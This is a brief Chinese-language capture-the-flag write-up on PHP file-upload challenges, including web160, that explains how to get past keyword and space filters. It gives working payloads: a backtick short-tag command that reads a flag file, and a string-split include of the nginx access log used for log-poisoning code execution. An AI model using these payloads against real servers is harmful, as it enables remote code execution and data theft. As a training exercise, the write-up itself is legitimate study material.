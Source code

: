 这题waf掉了()

 没有()怎么进行rce呢？我们可以想到``进行命令执行的技巧

payload:

```
<?=`tac ../f*`?>
```



#### web160

![image-20250126211936519](../assets/image-20250126211936519.png)

一开始发现.user.ini穿不上，后面测到原来是空格被waf了，.user.ini里也不能有空格

相比上一题这题将空格和``反引号和log过滤掉了

这题我们可以考虑使用日志注入的方法

尝试一下包含日志 nginx的log在/var/log/nginx/access.log

payload:

```
<?=include"/var/l"."og/nginx/access.l"."og"?>
```

![image-20250126213809672](../assets/image-20250126213809672.png)
